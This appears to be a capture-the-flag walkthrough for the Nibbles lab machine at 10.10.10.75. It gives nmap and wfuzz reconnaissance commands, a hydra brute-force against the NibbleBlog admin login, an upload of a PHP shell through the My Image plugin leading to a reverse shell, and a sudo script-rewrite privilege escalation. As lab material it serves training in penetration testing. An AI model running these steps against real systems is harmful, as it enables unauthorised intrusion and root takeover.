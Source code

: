 # scanning 
```bash
furious 10.10.10.75
nmap -sC -sV -Pn -n -p22,80 10.10.10.75 -oN targeted
```
![img2](img2.png)

# 80

```bash
whatweb 10.10.10.75
```
![img1](img1.png)

```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.75/FUZZ
```
![img3](img3.png)

```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.75/nibbleblog/FUZZ
```
![img4](img4.png)

```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.75/nibbleblog/FUZZ.php
```
![img4](img4.png)

reference from metasploit (Don't use it)
```bash
searchsploit -x php/remote/38489.rb
```
https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

# bruteforce attack
url: http://10.10.10.75/nibbleblog/admin.php
```bash
hydra -l "admin" -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"
```

**we got banned! >:v**
..so we try

username: admin 
password:nibbles

https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

# User flag

Activate My image plugin by visiting http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
Upload PHP shell, ignore warnings
Visit http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php.
This is the default name of images uploaded via the plugin.
now we made a reverse shell

```bash
cat /home/nibbler/user.txt
```
# Privilege scalation

![img6](img6.png)
```bash
mkdir personal/stuff -p
cd personal/stuff
echo "sh" >> monitor.sh
chmod +x monitor.sh
sudo ./monitor.sh
cat /root/root.txt
```
